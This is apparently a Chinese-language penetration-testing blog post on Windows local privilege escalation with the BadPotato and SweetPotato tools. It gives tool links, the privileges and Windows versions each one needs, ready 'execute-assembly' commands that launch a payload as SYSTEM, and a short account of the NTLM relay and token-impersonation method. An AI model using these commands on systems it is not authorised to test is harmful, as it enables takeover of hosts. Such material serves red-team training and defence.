 badpotato  
.Net 版本的 pipePotato  
https://github.com/BeichenDream/BadPotato  
利用 spoolsv.exe 进程的 RPC 服务器强制 Windows 主机向其他计算机进行身份  
证验证  
需要 SelmpersonatePrivilege/SeAssignPrimaryToken权限  
#### Sweet Potato  
juicy potato的重写  
https://github.com/CCob/SweetPotato  
COM/WinRM/Spoolsv 的集合版  
也就是 Juicy/PrintSpoofer  
从 Windows 7 到 windows10/windows server2019 的本地服务到 system 特权升级  
#### 最常使用  
**Sweet Potato**  
https://github.com/uknowsec/SweetPotato  
Win7-Win10/Win2008-2019  
`SweetPotato.exe -a &#34;whoami&#34;`  
```  
execute-assembly /root/SweetPotatonew.exe -a &#34;C:\inetpub\wwwroot\artifact.exe&#34;  
  
execute-assembly /root/SweetPotato.exe -a &#34;C:\inetpub\wwwroot\artifact.exe&#34;  
```  
**BadPotato**  
https://github.com/BeichenDream/BadPotato  
Windows 2012-2019、Windows 8-10  
`BadPatatoNet2.exe &#34;whoami&#34;`  
`execute-assembly /root/BadPotatoNet2.exe &#34;C:\inetpub\wwwroot\artifact.exe&#34;`  
### 小结  
Potato提权原理简单来说就是如下三条  
- 诱使&#34;SYSTEM&#34;账户通过NTML向控制的TCP节点进行身份验证  
- 以本地协商&#34;NT AUTHORITY\SYSTEM&#34;账户的安全令牌进行NTLM Relay  
- 模拟刚刚协商的令牌，达到提权的目的  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E6%8F%90%E6%9D%834/  

